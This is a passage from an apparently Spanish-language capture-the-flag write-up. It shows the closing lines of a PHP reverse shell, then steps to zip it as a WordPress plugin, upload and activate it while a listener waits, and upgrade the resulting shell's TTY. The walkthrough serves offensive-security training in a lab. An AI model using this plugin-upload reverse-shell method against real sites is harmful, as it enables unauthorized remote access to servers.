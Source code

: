 ```bash
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

Procederemos a comprimir la revershell en un archivo zip para, posteriormente, subirlo a WordPress como un plugin más.


![image](https://github.com/user-attachments/assets/16f9084f-19e0-447c-b390-5d7c579d72b2)


![image](https://github.com/user-attachments/assets/1298ef07-a7a3-4573-8ad5-71f2e6000923)


Nos ponemos en modo escucha en nuestra maquina atacante:


![image](https://github.com/user-attachments/assets/eee6692f-59f6-4a3f-845f-41d2b6cd83be)


En la parte de plugins de WordPress encontraremos nuestro plugin subido, el cual, al activarlo, debemos obtener la reverse shell.


![image](https://github.com/user-attachments/assets/6068a102-1e31-4e7a-b6f1-03ea74cbba61)


¡BINGO! Ahora podemos analizar el sistema para poder elevar privilegios en la máquina víctima.


![image](https://github.com/user-attachments/assets/f52ef284-ce1b-4cee-9f91-9ba588ab789a)


Sin antes realizar el tratamiento de la TTY.

```bash
# Inicia sesión bash
script /dev/null -c bash

# Suspende proceso
Ctrl + Z

# Configura terminal
stty raw -echo; fg
reset xterm
export TERM=xterm

# Alias útiles
alias ll='clear; ls -lsaht --color=auto'
alias ..='cd ..'
```
